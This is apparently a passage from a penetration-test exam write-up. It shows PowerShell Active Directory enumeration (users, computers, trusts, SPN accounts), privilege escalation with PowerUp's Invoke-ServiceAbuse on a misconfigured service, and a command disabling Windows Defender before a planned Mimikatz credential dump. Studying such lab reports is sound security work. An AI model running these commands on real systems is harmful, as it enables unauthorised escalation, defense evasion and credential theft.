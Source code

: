 # Domain Enumeration
USER is a domain computer and we are authenticated with domain credentials. We can enumerate the 
domain using PowerShell ADSI.

All users
``` 
$Searcher = New-Object DirectoryServices.DirectorySearcher
$Searcher.Filter = "(&(objectclass=user))"
$Searcher.SearchRoot = ''
$Searcher.FindAll()
```
all domain computers
```
$Searcher = New-Object DirectoryServices.DirectorySearcher
$Searcher.Filter = "(&(objectclass=computer))"
$Searcher.SearchRoot = ''
$Searcher.FindAll()
```
domain trusts
```
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```
users with SPN
```
$Searcher = New-Object DirectoryServices.DirectorySearcher
$Searcher.Filter = "
(&(!(samaccountname=krbtgt))(objectclass=user)(objectcategory=user)(servicePr
incipalName=*))"
$Searcher.SearchRoot = ''
$Searcher.FindAll()
```

## Steps to compromise
Using an automated tool such as PowerUp1
, we can find misconfigurations such as service permissions 
or potentially hijackable DLL locations. Running Invoke-AllChecks will show us any vulnerabilities. As 
seen in the screenshot below we find a service named SensorDataService which has misconfigured 
permissions and our current user examAd can restart this service, allowing us to abuse it and add our 
user into the local Administrators group

```
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```
Running The following Command will add our current user (examAp) to the local administrator group

```
Invoke-ServiceAbuse -Name 'SensorDataService' -Username 'test\examAd'
```
We can verify our user has been added the Administrators group
```
net localgroup Administrator
```
Once we have Administrative Privileges on USER, we run Invoke-Mimikatz to dump credentials. But first 
let’s disable Windows Defender.
```
Set-MpPreference -DisableIOAVProtection $true
```
